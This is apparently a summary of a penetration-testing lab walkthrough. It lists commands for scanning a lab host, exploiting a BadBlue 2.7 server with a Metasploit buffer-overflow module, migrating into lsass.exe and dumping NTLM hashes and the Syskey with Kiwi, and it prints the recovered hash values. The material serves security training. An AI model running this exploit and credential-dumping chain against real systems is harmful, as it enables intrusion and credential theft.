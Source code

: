 

Here are the summary steps from the document in bullet points:

1. Step 1: Check the target IP address.
    
    - Command: `cat /root/Desktop/target`
2. Step 2: Run an initial Nmap scan against the target IP.
    
    - Command: `nmap 10.0.27.166`
3. Step 3: Perform a detailed Nmap scan to determine version information on port 80.
    
    - Command: `nmap -sV -p 80 10.0.27.166`
4. Step 4: Search for the exploit module for BadBlue 2.7 using searchsploit.
    
    - Command: `searchsploit badblue 2.7`
5. Step 5: Exploit the BadBlue server using the "PassThu" remote buffer overflow Metasploit module.
    
    - Commands:
        - Start Metasploit: `msfconsole -q`
        - Use the BadBlue exploit module: `use exploit/windows/http/badblue_passthru`
        - Set the target IP: `set RHOSTS 10.0.27.166`
        - Exploit the target and obtain a Meterpreter shell: `exploit`
6. Step 6: Migrate the current process into the lsass.exe process.
    
    - Command: `migrate -N lsass.exe`
7. Step 7: Load the Kiwi extension in Metasploit.
    
    - Command: `load kiwi`
8. Step 8: Dump the Administrator NTLM hash using Kiwi extension commands.
    
    - Command: `creds_all`
    - Reveals Administrator User NTLM Hash: `e3c61a68f1b89ee6c8ba9507378dc88d`
9. Step 9: Extract all user NTLM hashes using Kiwi.
    
    - Command: `lsa_dump_sam`
    - Reveals Student User NTLM Hash: `bd4ca1fbe028f3c5066467a7f6a73b0b`
10. Step 10: Find the Syskey by dumping the LSA secrets using Kiwi.
    
    - Command: `lsa_dump_secrets`
    - Reveals Syskey: `377af0de68bdc918d22c57a263d38326`

These steps detail the process of exploiting the BadBlue server, extracting user NTLM hashes, and finding the Syskey using the Kiwi extension in Metasploit.